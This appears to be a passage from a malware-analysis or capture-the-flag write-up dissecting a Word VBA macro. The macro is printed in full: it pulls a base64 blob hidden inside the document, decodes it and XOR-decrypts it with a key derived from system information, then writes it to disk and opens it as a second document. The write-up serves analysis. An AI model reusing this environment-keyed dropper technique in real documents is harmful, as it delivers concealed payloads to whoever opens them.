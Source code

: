 So we can just skip all this stuff.

## Real payload

So the interesting stuff is mostly:

```vbnet
   offy = iffyoffy

    payload_size = 78508
    b64 = Replace(supersuper(offy), vbLf, "")
    b64 = Left(b64, payload_size)

    Dim rawlobster() As Byte
    rawlobster = bbbbb(b64)
    rawf = ActiveDocument.Path & "\\as8ja8sj3d.doc"
    FF = FreeFile
    Open rawf For Binary Access Write As #FF

    Put #FF, 1, rawlobster
    Close #FF
    Application.Documents.Open rawf
```

```vbnet
Function supersuper(iffy) As String
On Error Resume Next
   fp = ActiveDocument.Path & "\\" & ActiveDocument.Name
   Dim data As String
   Dim FF As Integer
   FF = FreeFile
    Open fp For Input As #FF

    Seek FF, iffy + 1
    supersuper = Input$(LOF(FF) - iffy, FF)
    Close 1
End Function

Function iffyoffy() As Long
    iffyoffy = ((CInt(Left(WordBasic.[GetSystemInfo$](25), 2)) \ 50) * 500) + ((WordBasic.[GetSystemInfo$](31) \ 768) * 1337) + ((WordBa
sic.[GetSystemInfo$](32) \ 1366) * 81175)
End Function
```

So what it does is basically that it opens the current file remove the `offy`
 first chars, and send the 78508 next chars to `bbbbb()`:

```vbnet
Private Function bbbbb(ByVal snakes As String) As Variant
    On Error Resume Next
    Set oo = CreateObject("MSXML2.DOMDocument")
    Set xx = oo.createElement("b64")
    xx.dataType = "bin.base64"
    xx.Text = snakes
    bbbb = xx.nodeTypedValue

    k = Asc(Mid(WordBasic.[GetSystemInfo$](30), 10, 1)) Xor Asc(Mid(WordBasic.[GetSystemInfo$](30), 17, 1))

    Dim pppp(58880) As Byte
    For iter = 0 To 58880
        pppp(iter) = bbbb(iter) Xor k
    Next
    bbbbb = pppp
End Function
```